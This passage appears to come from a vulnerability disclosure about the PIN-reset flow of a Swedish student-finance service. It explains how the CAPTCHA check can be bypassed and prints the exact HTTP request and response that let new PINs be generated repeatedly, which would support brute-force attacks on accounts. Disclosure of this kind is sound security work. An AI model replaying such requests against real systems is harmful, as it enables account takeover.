 One problem with performing that many login attempts and PIN resets is that it
must be automated because almost nobody has the patience to do that manually.
But a CAPTCHA must be solved every time one wants to reset the PIN. Or must it?

The other vulnerability is in the CAPTCHA requirement as that rhetorical
question suggests. Step one described above is to fill in one's personal
identity number and to solve a CAPTCHA. The next and last step is to choose a
delivery method for the PIN. Submitting that second form successfully generates
a new PIN and sends it via the chosen media. The vulnerability lies in that the
last step can be repeated any number of times without solving a new CAPTCHA. So
an attacker just needs to solve one CAPTCHA per victim.

Here is the HTTP request that can be repeated indefinitely to generate new
PINs:

```
POST /bas/ekund/personligKodAction.do HTTP/1.1
Host: tjanster.csn.se
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: https://tjanster.csn.se
Connection: close
Referer: https://tjanster.csn.se/bas/ekund/personligKodAction.do
Cookie: JSESSIONID=<REDACTED>; testcookie=true; WT_FPC=id=<REDACTED>:lv=<REDACTED>:ss=<REDACTED>; _ga=; _gid=GA<REDACTED>; valdgruppmenyCookie=personligt; _gat_UA-<REDACTED>=1; _gali=PersonligKodForm
Upgrade-Insecure-Requests: 1

send=E&metod%231*utskickssatt=Best%E4ll
```

HTTP response to the above request:

```
HTTP/1.1 302 Found
Date: Thu, 06 Aug 2020 12:16:34 GMT
Server: Apache
X-Powered-By: Servlet/3.0
Location: https://tjanster.csn.se/bas/ekund/personligKodAction.do?metod=redirect&forward=layout.gemensamma.texter&textId=tjanst.bestallapersonligKod.e-post
Content-Length: 0
Set-Cookie: ADRUM_BTa=R:55|g:<REDACTED>; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Set-Cookie: ADRUM_BTa=R:55|g:<REDACTED>|n:customer1_<REDACTED>; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Set-Cookie: SameSite=None; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>|e:<REDACTED>; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Set-Cookie: ADRUM_BT1=R:55|i:<REDACTED>|e:<REDACTED>|d:<REDACTED>; Expires=Thu, 06-Aug-20 12:17:04 GMT; Path=/; Secure
Expires: Thu, 01 Dec 1994 16:00:00 GMT
Cache-Control: no-cache="set-cookie, set-cookie2"
Connection: close
Content-Type: text/html
Content-Language: sv-SE


```
